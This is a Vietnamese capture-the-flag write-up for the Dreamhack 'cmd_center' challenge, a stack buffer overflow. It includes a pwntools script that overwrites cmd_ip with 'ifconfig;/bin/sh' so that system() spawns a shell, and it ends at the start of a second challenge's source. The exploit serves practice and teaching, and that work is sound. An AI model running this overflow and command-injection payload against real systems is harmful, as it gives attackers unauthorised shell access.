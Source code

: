 ```c 
        char center_name[24];

        init();

        printf("Center name: ");
        read(0, center_name, 100);


        if( !strncmp(cmd_ip, "ifconfig", 8)) {
                system(cmd_ip);
        }

        else {
                printf("Something is wrong!\n");
        }
        exit(0);
}
```
- Chương trình cho nhập vào 100 byte `center_name` nhưng chỉ được khai báo 24 byte nên có lỗi buffer overflow
- Sau đó nếu `cmd_ip = ifconfig` thì sẽ thực thi `system(cmd_ip)`
- Để chiếm được shell thì phải thực thi `system("/bin/sh")`
- Với câu lệnh `system("ifconfig;/bin/sh")` vẫn lấy được shell vì `system` sẽ thực thi được `system("ifconfig")` sau đó đến  `system("/bin/sh")`
- Ta sẽ overwrite để không bị thay đổi cmd_ip lúc đầu và thêm sau đó chuỗi `;/bin/sh`
- Debug để tìm ofset giữa `cmd_ip` và `center_name`
![image](https://hackmd.io/_uploads/Sk6QUQMKR.png)
- Vì hàm `read` có `center_name` là tham số thứ 2 nên ta xem `rsi` được lấy từ đâu, `rsi` được lấy từ `[rbp-0x130]` đó là địa chỉ tương đối của `center_name`
- Tương tự địa chỉ tương đối của `cmd_ip` là `[rbp-0x110]`
`ofset = 0x130 - 0x110 = 0x20`
## Script
```python=
#!/usr/bin/python3

from pwn import *

#p = process('./cmd_center')
p = remote('host1.dreamhack.games', 18358)


payload = b'A'*0x20 + b'ifconfig;/bin/sh'

p.sendlineafter(b'Center name: ', payload)

p.interactive()
```
# [](https://)
## Source code
```c 
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler()
{
    puts("TIME OUT");
    exit(-1);
```